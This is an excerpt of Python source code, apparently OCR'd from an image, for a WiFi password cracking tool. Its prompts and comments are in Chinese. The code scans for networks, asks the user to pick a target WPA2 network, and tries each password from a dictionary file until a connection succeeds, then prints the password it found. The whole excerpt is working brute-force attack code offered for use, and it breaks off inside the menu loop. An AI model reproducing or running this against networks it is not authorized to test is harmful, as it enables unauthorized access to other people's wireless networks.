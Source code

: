 ```plain
    wifi = pywifi.PyWiFi()
    interface = wifi.interfaces()[0]
    wifi_dic_path = input("密码字典路径：")
    with open(wifi_dic_path, 'r') as f:
        flag = False
        for pwd in f:
            pwd = pwd.strip('\n')
            interface.disconnect()
            while interface.status() == 4:
                pass
            profile = pywifi.Profile()
            profile.ssid = wifi_name
            profile.auth = const.AUTH_ALG_OPEN
            profile.akm.append(const.AKM_TYPE_WPA2PSK)
            profile.cipher = const.CIPHER_TYPE_CCMP
            profile.key = pwd
            tmp_profile = interface.add_network_profile(profile)
            interface.connect(tmp_profile)
            start_time = time.time()
            while time.time() - start_time < 1.5:
                if interface.status() == 4:
                    print(f'\rWIFI连接成功！密码为：{pwd}')
                    flag = True
                    break
                else:
                    print(f'\r尝试破解WIFI，当前密码 {pwd} 。', end='')
            interface.remove_network_profile(tmp_profile)
            if flag:
                return


def main():
    exit_flag = 0
    target_num = -1
    while not exit_flag:
        try:
            print('WiFi 破解工具'.center(35, '-'))
            wifi_list = wifi_scan()
            choose_exit_flag = 0
            while not choose_exit_flag:
                try:
                    target_num = int(input('请选择你要尝试破解的 wifi：'))
                    if target_num in range(len(wifi_list)):
                        # 二次确认
                        while not choose_exit_flag:
                            try:
                                choose = str(input(f'你选择要破解的 WiFi 名称是：{wifi_list[target_num][1]}，确定吗？（Y/N）'))
                                # 对用户输入进行小写处理，并判断
                                if choose.lower() == 'y':
                                    choose_exit_flag = 1
                                elif choose.lower() == 'n':
                                    break
                                # 处理用户其它字母输入
                                else:
                                    pass
                            except ValueError:
                                pass
                        if choose_exit_flag == 1:
                            break
                        else:
                            pass
                except ValueError:
```